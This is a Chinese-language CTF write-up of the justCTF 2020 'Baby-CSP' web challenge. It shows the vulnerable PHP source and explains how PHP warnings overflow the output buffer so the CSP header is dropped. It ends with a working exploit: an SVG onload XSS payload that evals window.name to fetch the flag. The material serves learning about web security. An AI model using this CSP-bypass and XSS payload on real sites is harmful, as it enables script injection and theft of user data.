

### 例题
[[justCTF 2020]Baby-CSP](https://hackmd.io/@terjanq/justCTF2020-writeups#Baby-CSP-web-6-solves-406-points)
```php
<?php
  require_once("secrets.php");
$nonce = random_bytes(8);

if(isset($_GET['flag'])){
  if(isAdmin()){
    header('X-Content-Type-Options: nosniff');
    header('X-Frame-Options: DENY');
    header('Content-type: text/html; charset=UTF-8');
    echo $flag;
    die();
  }
  else{
    echo "You are not an admin!";
    die();
  }
}

for($i=0; $i<10; $i++){
  if(isset($_GET['alg'])){
    $_nonce = hash($_GET['alg'], $nonce);
    if($_nonce){
      $nonce = $_nonce;
      continue;
    }
  }
  $nonce = md5($nonce);
}

if(isset($_GET['user']) && strlen($_GET['user']) <= 23) {
  header("content-security-policy: default-src 'none'; style-src 'nonce-$nonce'; script-src 'nonce-$nonce'");
  echo <<<EOT
    <script nonce='$nonce'>
    setInterval(
    ()=>user.style.color=Math.random()<0.3?'red':'black'
    ,100);
    </script>
    <center><h1> Hello <span id='user'>{$_GET['user']}</span>!!</h1>
    <p>Click <a href="?flag">here</a> to get a flag!</p>
    EOT;
}else{
  show_source(__FILE__);
}

// Found a bug? We want to hear from you! /bugbounty.php
// Check /Dockerfile
```
```dockerfile
FROM php:7.4-apache
COPY src-docker/ /var/www/html/
RUN mv "$PHP_INI_DIR/php.ini-development" "$PHP_INI_DIR/php.ini"
EXPOSE 80
```
> 注意
> 通常，在 PHP 中，当您在调用 header（） 之前返回任何主体数据时，调用将被忽略，因为响应已经发送给用户，并且必须先发送标头。在应用程序中，在调用标头之前没有返回显式数据`header("content-security-policy: ...");`但由于警告是首先显示的，因此它们在标头有机会及时到达响应缓冲区之前进入响应缓冲区。 
> PHP 默认响应缓冲为 4096 字节，因此可以通过在 warnings 中提供足够的数据，响应将在 CSP 标头之前发送，从而导致标头被忽略。因此，可以执行我们的 SVG 有效载荷。 警告的大小还有另一个限制（如果我没记错的话，为 1kb），因此需要强制大约 4 个warnings，每个warnings1000 个字符。


```html
<script>
    name="fetch('?flag').then(e=>e.text()).then(alert)"
    
    location = 'https://baby-csp.web.jctf.pro/?user=%3Csvg%20onload=eval(name)%3E&alg='+'a'.repeat('292');
    
</script>
```
